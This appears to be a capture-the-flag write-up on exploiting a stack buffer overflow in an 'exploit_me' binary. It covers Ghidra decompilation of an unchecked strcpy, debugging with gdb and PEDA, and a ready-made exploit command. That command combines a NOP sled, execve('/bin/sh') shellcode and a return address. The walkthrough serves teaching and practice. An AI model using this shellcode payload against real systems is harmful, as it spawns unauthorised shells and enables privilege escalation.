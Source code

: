 ```shell

┌──(fab㉿kali)-[~]
└─$ ghidra
```

We probably have to make a buffer overflow, since there's a `puts()` function waiting for an input and a totally useless `main()` function:
```shell
bool main(int param_1,int param_2)
{
  char local_90 [140];
  
  if (1 < param_1) {
    strcpy(local_90,*(char **)(param_2 + 4));
    puts(local_90);
  }
  return param_1 < 2;
}
```

Since the LibC is used, we can maybe make the program [call a function](https://reverseengineering.stackexchange.com/questions/27826/using-a-buffer-overflow-to-call-a-function) like `execve()` through a [buffer overflow](https://pointerless.wordpress.com/2012/02/26/strcpy-security-exploit-how-to-easily-buffer-overflow):
![[Pasted image 20240424184520.png]]

Among the tools available by default on Linux to analyze an executable, we have `readelf`, `objdumps`, `nm`, `gdb`, `dmesg`.. Please refer to this [write-up](https://jaybailey216.com/pwn-challenge-bat-computer) to see some of these tools at work.

To create a buffer overflow we can use Python:
```shell
./exploit_me $(python -c "print '\x90'*37+'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80' + 'A'*100 +'\xb0\xf6\xff\xbf'")
```

However, for this challenge we will use Perl.

To understand what to do, we will use [PEDA](https://github.com/longld/peda), which stands for Python Exploit Development Assistance for GDB.

We launch our executable and we test it with a line of 'A' longer than 140 characters, the size of the `local_90` buffer:
```shell
┌──(fab㉿kali)-[~/rainfall/b2r]
└─$ gdb exploit_me
```
![[Pasted image 20240425135544.png]]
![[Pasted image 20240425135608.png]]
We see that the EBP register contains the hexadecimal string 0x41414141, (four times the letter 'A'), as we can see from the ASCII table:
![[Pasted image 20240425135520.png]]
